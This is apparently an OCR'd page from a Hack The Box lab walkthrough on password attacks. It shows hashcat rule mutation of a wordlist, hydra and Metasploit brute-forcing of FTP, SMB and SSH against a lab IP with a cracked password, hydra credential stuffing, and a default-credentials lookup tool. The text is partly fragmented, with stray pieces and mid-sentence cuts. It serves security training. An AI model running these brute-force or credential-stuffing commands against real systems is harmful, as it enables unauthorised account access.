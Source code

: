 1. Grab that DC character everyone on this thread loves.
2. Put it on a txt file
3. Mutate that new file with their rule.
4. bruteforce as it says

In less than 5 min you have your answer
```shell
# the new rule file
$ cat custom.rule1
c $!
  
# apply rule to the current mutated list
$ hashcat --force mut_password2.list -r custom.rule1 --stdout | sort -u > mut_password3.list
  
# check wordcount
$ wc -w mut_password3.list
54440 mut_password3.list

# keep words that start with a Capital letter
$ grep '^[A-Z]' mut_password3.list > mut_password4.list

# check wordcount
$ wc -w mut_password4.list
47880 mut_password4.list
```

1. Use this final wordlist to brute-force either SMB (using MSF’s auxiliary/scanner/smb/smb_login module making sure to set the user as sam), FTP (`hydra -l sam -P mut_password4.list ftp://[target-IP] -t 48`), or SSH (`hydra -l sam -P mut_password4.list ssh://[target-IP] -t 48`).

**Timescales**:

2. Scanning FTP using `mut_password4.list` and `-t 48`: ~10 minutes.
3. Scanning SMB using `mut_password4.list` via MSF: ~30 minutes.
4. Scanning SSH using `mut_password4.list` and `-t 48`: ~60 minutes.
21][ftp] host: 10.129.202.64   login: sam   password: B@tm@n2022!

#### # Password Reuse


colon (`username:password`). In addition, we can select the passwords and mutate them by our `rules` to increase the probability of hits.

#### Credential Stuffing - Hydra **Syntax**
```shell-session
AhmaDb0x@htb[/htb]$ hydra -C <user_pass.list> <protocol>://<IP>
```

$ git clone https://github.com/ihebski/DefaultCreds-cheat-sheet
$ pip3 install -r requirements.txt
$ cp creds /usr/bin/ && chmod +x /usr/bin/creds
$ creds search tomcat
superdba:admin

